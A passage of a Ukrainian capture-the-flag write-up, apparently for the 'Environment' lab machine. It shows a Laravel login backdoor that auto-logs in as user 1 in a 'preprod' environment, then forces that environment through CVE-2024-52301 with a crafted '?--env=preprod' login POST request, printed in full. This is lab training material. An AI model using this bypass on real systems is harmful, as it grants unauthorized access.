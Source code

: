 ![image](imgs/login-debug.png)

Після видалення будь-якого значення з параметру `remember` в тілі запиту, бекенд розкриває деяке додаткове середовище додатку, `preprod`, призначене для використання розробниками:

```php
if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
    $request->session()->regenerate();
    $request->session()->put('user_id', 1);
    return redirect('/management/dashboard');
}
```

### Бекдор, який залишили самі розробники

Отакої, сам розробник залишив бекдор для нас! Дуже мило з його сторони!

Тепер ми можемо підключити нашу [CVE-2024-52301](https://nvd.nist.gov/vuln/detail/CVE-2024-52301), щоб змінити середовище на `preprod` і зайти на ендпоінт (`/management/dashboard`), до якого ми не повинні мати доступу.

Згідно цьому [PoC](https://github.com/Nyamort/CVE-2024-52301), ми можемо додати `?--env=preprod` в кінці POST запиту на login ендпоінт для активації preprod середовища:

```http
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 132
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6InRvSkEzL3hQcE1aMHBLUVVVQ0xWc3c9PSIsInZhbHVlIjoiaHlIY3ErT1V3aGxwcktVOWt5SXg4TFVJczVrNXJrV1prMGh5MW9JbC93L3hpTnJhem1CVnc5dEMybHJXOFhoYUx3TEl5VjlZYncwUHcweEtlMEdMME1uZHBqVEtWdGc0akIra2VpZXQrWGlmRW0xOStXcTVSZUx4WFBaQXhwTVciLCJtYWMiOiJiNzg0N2E1ODc4MWNlNmRlYzcwM2VmMTU2MWE4YzU0NjEzNTkzODgxOWNmNTUzMDQwOWYwNWViNzBlZWI2NDhlIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImowRjRqQmhQQUZXVHJuSEhuWDYvaWc9PSIsInZhbHVlIjoiakVvWG1qVFFyUlQyV3NITFhKOUliVDlhdW1jTGlHdHRrYUpYTW5XdG0wT3paa09GejQzM3ZyMHhURm1GU3d3Q1JKYmhaWXY5R1ZKTmdvRWVtQXRiTFNWTytnK2l3M3E2dUhBWE1kc3I3OWsraHVER3poMWFLYWFlSENvS0tKZWIiLCJtYWMiOiI2OTYzM2U1OGViMjBmODBmNzQzMGQ4MTdhNGY1OWQ0NGZmM2JiOGExMzM5MTUwZTgxZDgwYmYwODNlOWNmOGFjIiwidGFnIjoiIn0%3D
Connection: keep-alive
```